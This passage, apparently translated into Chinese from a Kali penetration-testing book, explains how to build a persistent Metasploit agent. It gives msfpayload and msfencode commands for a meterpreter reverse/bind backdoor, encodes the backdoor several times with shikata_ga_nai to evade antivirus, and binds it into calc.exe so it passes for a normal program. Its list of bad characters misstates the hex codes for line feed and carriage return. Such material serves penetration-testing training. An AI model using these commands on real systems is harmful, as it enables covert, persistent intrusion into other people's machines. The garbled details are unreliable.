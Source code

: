 # 使用 Metasploit 创建独立的持久代理

Metasploit 框架可用于创建一个独立的可执行文件，可以在受损系统上持久存在并允许交互式通信。独立包的优势在于可以提前准备和测试以确保连接，并进行编码以绕过本地防病毒软件。

要创建一个简单的独立代理，请在 Kali 的命令提示符上启动`msfconsole`。

使用`msfpayload`来制作持久代理。在下面的屏幕截图中的示例中，代理被配置为使用`reverse_tcp` shell，将连接到端口`4444`上的本地主机`192.168.43.130`。名为`attack1.exe`的代理将使用 win32 可执行文件模板。

![使用 Metasploit 创建独立的持久代理](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_06_15.jpg)

独立代理只能在未安装防病毒软件的受损系统上运行，或者如果使用适当的`meterpreter`命令先禁用了防病毒软件。要绕过防病毒软件，必须对后门进行编码。

有几种不同的选项可以对有效载荷进行编码，如下面的屏幕截图所示：

![使用 Metasploit 创建独立的持久代理](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_06_16.jpg)

要查看可用选项，请使用`show encoders`命令。

Metasploit 使用大约 30 种不同的编码器；默认情况下，如果未指定编码器，它将选择最合适的编码器。

一个很好的通用编码器是`shikata_ga_nai`。该编码器实现了多态 XOR 加反馈编码，针对 4 字节密钥，是 Metasploit 唯一被评为“优秀”的编码器。

要对先前准备的`attack.exe`代理进行编码，我们使用以下命令：

```
msf>msfencode -i attack.exe -o encoded_attack.exe -e
  x86/shikata_ga_nai -c 5 -t exe 

```

这使用`shikata_ga_nai`协议对`attack.exe`代理进行了五次编码。每次重新编码，它都变得更难检测。但是，可执行文件的大小也会增加。

完整的有效载荷可以直接从 Kali 的命令行中创建。不仅可以对其进行编码，还可以配置编码模式以避免特定字符。例如，在编码持久代理时应避免以下字符，因为它们可能导致攻击被发现和失败：

+   `\x00`代表 0 字节地址

+   `\xa0` 代表换行

+   `\xad` 代表回车

要创建多重编码的有效负载，请使用以下命令：

```
msf>msfpayload windows/meterpreter/bind_tcp
  LPORT=444 R| msfencode -e x86/shikata_ga_nai -c 5 -t raw -a
  x86 -b '\x00\x0a\x0d' -c 5 -x /root/Desktop/attack.exe -o
  /root/Desktop/encoded_attack.exe 

```

您还可以将`msfpayload`编码为现有的可执行文件，修改后的可执行文件和持久代理都将起作用。要将持久代理绑定到一个可执行文件（如计算器（`calc.exe`）），首先将适当的`calc.exe`文件复制到 Metasploit 的模板文件夹中，位于`/usr/share/metasploit-framework/data/templates`。当模板就位时，使用以下命令：

```
msf>msfpayload windows/meterpreter/bind_tcp
  LPORT=444 R| msfencode -t exe -* calc.exe -k -o
  encoded_calc_attack.exe -e x86/shikata_ga_nai -c 5 

```
